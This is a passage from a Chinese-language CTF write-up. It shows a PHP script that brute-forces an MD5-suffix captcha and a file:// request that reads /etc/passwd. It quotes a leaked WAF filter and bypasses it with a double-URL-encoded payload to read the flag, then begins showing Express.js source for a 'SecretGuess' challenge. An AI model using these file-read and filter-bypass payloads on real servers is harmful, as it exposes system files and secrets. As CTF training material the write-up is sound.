 ```php
<?php
for ($i=0; $i < 1000000000; $i++) { 
       $a = substr(md5($i), -6, 6);       if ($a == "d17b5b") {              echo $i;              break;       }
}
?> 
```

尝试使用 file 协议读取，发现读取 / etc/passwd 成功

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHplOTdQQjB3RWt3RkcyWVk0TEM0ZnRhaEE5WExGaWFNdVRKRjEzSW1WVWE0RUpNQ1ZCWlFaWFVRLzY0MA?x-oss-process=image/format,png)

读取 / flag，没成功，尝试读取 / var/www/html/index.php，得到源码，原来是有个 waf 过滤了 flag

```php
    ···
    if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
    {
        $url = $_POST['url'];
        $captcha = $_POST['captcha'];
        $is_post = 1;
        if ( $captcha !== $_SESSION['answer'])
        {
            $die_mess = "wrong captcha";
            $is_die = 1;
        }

        if ( preg_match('/flag|proc|log/i', $url) )
        {
            $die_mess = "hacker";
            $is_die = 1;
        }
    }
    ··· 
```

file 协议读 flag，利用两个 url 编码 flag 绕过

    url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=43049 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHprbEk0R29lREhZSjk1NElPOGlheU9mVzdLUVAwb3A1ekVRdUhvQmxTY3FBV1lnQWljSHZPRW9jQS82NDA?x-oss-process=image/format,png)

0x05 SecretGuess

题目给了源码，但是不全

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpJU1U3NHNheW1wRlFEam52bDNWRWZLYVJWZjh5bFVYSVBCUlc1UXBLaWJvVHBicll0WmtQdDN3LzY0MA?x-oss-process=image/format,png)

在 index.html 中发现了 source，点击可以看到源码

```JavaScript
    const express = require('express');
    const path = require('path');
    const env = require('dotenv').config();
    const bodyParser = require('body-parser');
    const crypto = require('crypto');
    const fs = require('fs')
    const hbs = require('hbs');
    const process = require("child_process")

    const app = express();

    app.use('/static', express.static(path.join(__dirname, 'public')));
    app.use(bodyParser.urlencoded({ extended: false }))
    app.use(bodyParser.json());
    app.set('views', path.join(__dirname, "views/"))
```